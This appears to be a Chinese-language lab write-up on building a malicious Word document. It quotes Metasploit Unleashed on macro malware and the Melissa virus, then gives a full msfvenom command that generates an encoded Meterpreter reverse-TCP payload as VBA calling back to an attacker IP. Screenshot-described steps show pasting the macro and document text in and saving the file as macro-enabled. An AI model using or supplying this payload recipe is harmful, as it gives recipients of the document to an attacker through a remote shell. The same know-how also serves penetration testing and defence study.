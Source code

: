 [TOC]



# 漏洞复现：

## 1.利用宏病毒感染word文档获取shell复现



https://www.offsec.com/metasploit-unleashed/vbscript-infection-methods/

A macro is a feature that allows users to create automated processes inside of a document used by software like Microsoft Word, Excel, or PowerPoint. This is used to enhance user experience, increase productivity, or automate otherwise manual tasks. But, in other words, it executes code. What kind of code? Well, pretty much whatever you want, even a Meterpreter session!

One memorable example of a macro-malware is the Melissa virus, which first appeared in 1999. The malware was embedded in an MS Word file and when opened, would e-mail itself to the first 50 contacts in the victim’s address book. Though it didn’t cause much damage to individual users (aside from accidentally causing several mail services to DDOS), the total worth of damages caused was estimated at 80$ million, and the attacker was sentenced to 20 months in federal prison.



`msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.137.130 LPORT=4444 -e x86/shikata_ga_nai -f vba-exe -o output.txt`

![image-20241026170015869](https://s2.loli.net/2024/10/29/OohIUcJWnpHFeVM.png)



the script is in two parts. The first part of the script is created as a macro and the second part is appended into the document text itself. 

You will need to transfer this script over to a machine with Windows and Office installed .





创建宏

![image-20241026172335912](https://s2.loli.net/2024/10/29/4HEjvFQCKrO7acD.png)





将生成的宏复制到此处：

![image-20241026171241958](https://s2.loli.net/2024/10/29/zulUB4gIHYJFRAi.png)



将生成的第二部分即文档内容粘贴到word文档中

![image-20241026171612062](https://s2.loli.net/2024/10/29/r96UP2I5l71mRjq.png)

宏文件生成完毕

需要另存为启用宏的Word 文档
